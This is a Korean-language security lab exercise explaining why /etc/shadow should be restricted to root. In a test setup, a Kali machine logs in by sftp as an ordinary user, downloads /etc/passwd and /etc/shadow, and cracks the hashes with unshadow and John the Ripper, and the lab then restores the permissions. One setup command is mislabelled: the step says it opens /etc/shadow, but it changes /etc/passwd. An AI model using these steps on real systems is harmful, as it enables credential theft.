 ## /etc/shadow 파일 소유자 및 권한 설정

왜 `root` 외의 일반 사용자가 `/etc/shadow` 파일 내용을 볼 수 없도록 설정(접근 권한이 `400` 이하)해야 하는지 알아봅시다.

### 실습 1 : 공격자가 원격에서 일반 사용자로 접속하여 `/etc/shadow` 파일 탈취 및 패스워드 크래킹
1. [우분투] `sudo` 명령을 사용할 수 없는 일반 사용자 `aaa` 생성
```
cju@wooam:~$ sudo adduser aaa
```

2. [우분투] 누구나 `/etc/shadow` 파일을 볼 수 있도록 변경
```
cju@wooam:~$ sudo chmod 444 /etc/passwd
```

3. [우분투] 원격 접속을 위해 OpenSSH 서버 설치
```
cju@wooam:~$ sudo apt install openssh-server
```

4. [우분투] IP 주소 확인
```
cju@wooam:~$ ip a
```

5. [칼리] 앞에서 확인한 IP 주소로 접속
```
$ sftp aaa@192.168.xxx.yyy
aaa@192.168.202.xxx's password: 
Connected to 192.168.202.xxx.
```

6. [칼리] 우분투의 `/etc/passwd` 파일 다운로드
```
sftp> get /etc/passwd
Fetching /etc/passwd to passwd
passwd                                     100% 2967     2.2MB/s   00:00    
```

7. [칼리] 우분투의 `/etc/shadow` 파일 다운로드
```
sftp> get /etc/shadow
Fetching /etc/shadow to shadow
shadow                                     100% 1585     1.1MB/s   00:00    
```

8. [칼리] SFTP 접속 종료
```
sftp> bye
```

9. [칼리] 다운로드한 2개의 파일을 하나로 통합
```
$ unshadow passwd shadow > ubuntu
```

10. [칼리] John the Ripper로 패스워드 크래킹 시작
```
$ john --format=crypt ubuntu
```

11. [칼리] 패스워드가 보인다!
```
1111             (cju)     
1111             (aaa)     
```

### 복구
1. [우분투] 생성한 계정 삭제
```
cju@wooam:~$ sudo deluser --remove-all-files aaa
```

2. [우분투] 다른 사용자가 `/etc/shadow` 파일 내용을 볼 수 없도록 권한 변경
```
cju@wooam:~$ sudo chmod 400 /etc/shadow
```

3. [우분투] (필요시) OpenSSH 서버 제거
```
cju@wooam:~$ sudo apt remove openssh-server
```
